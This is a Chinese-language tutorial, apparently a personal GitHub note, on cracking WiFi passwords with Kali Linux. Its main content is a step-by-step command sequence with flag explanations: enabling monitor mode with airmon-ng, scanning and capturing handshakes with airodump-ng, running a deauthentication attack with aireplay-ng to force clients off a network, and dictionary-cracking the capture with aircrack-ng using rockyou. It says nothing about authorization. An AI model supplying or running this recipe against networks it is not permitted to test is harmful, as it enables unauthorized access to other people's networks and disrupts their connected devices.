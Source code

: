 # kali linux暴力破解WiFi

## 参考地址

>   优：https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html
>
>   https://blog.csdn.net/Edroid1530/article/details/74446651?locationNum=4&fps=1

## 要点说明

>   需要管理员权限执行以下命令

## 本地字典

>   路径`/usr/share/wordlists/rockyou.txt.gz`
>
>   解压：`gzip -d /usr/share/wordlists/rockyou.txt.gz`
>
>   `kali linux`在树莓派上的字典在`/usr/share/wfuzz/wordlist/`目录中
>
>   使用组合命令可以查询，使用管理员执行：`find * / | grep wordlists | less`

## 暴力破解

*   检查网卡是否支持监听模式

    >   `airmon-ng`，有输出则表示支持，没输出即为不支持

*   开启无线网卡的监听模式

    >   `airmon-ng start wlan0`，`wlan0`为无线网卡名，开启后使用`ifconfig`查看无线网卡名由`wlan0`已经变成了`wlan0mon`

*   搜索附近的WIFI网络

    >   `airodump-ng wlan0mon`，使用`Ctrl + c`终止搜索。可以得到如下信息

| BSSID | CH   | ENC  | ESSID  | PWR  |
| ----- | ---- | ---- | ------ | ---- |
| MAC地址 | 信道   | 加密方式 | wifi名称 | 信号强度 |

*   抓取握手包

    >   `airodump-ng -c 10 --bssid FF:FF:FF:FF:FF:FF:FF -w ~/ wlan0mon`
    >
    >   *   `-c`：指定信道
    >   *   `--bssid`：指定bssid号，BSS：`Basic Service Set`
    >   *   `-w`：指定抓取的数据包的保存位置

*   攻击连接的设备

    >   攻击已经链接的设备迫使其掉线，重新链接进行抓取密码数据包。
    >
    >   `aireplay-ng -0 2 -a FF:FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF:FF wlan0mon`
    >
    >   `-0`：后面指定攻击次数，`-0`表示`deauth`攻击模式。
    >
    >   `-a`：指定攻击的AP的MAC地址
    >
    >   `-c`：指定客户端的MAC地址。

*   重要提示

    >    攻击成功后，抓取数据包的终端第一行会显示抓到的数据包，否则攻击不成功。攻击不成功的原因有多种，攻击不成功的原因有多种。参考第二个链接原因

*   开始破解

    >   `aircrack-ng -w dic 捕获的cap文件`
    >
    >   `-w`：指定字典
    >
    >   最后是抓到的数据包

## 扫尾工作

>   `airmon-ng stop wlan0mon`用来关闭网卡的监听模式。
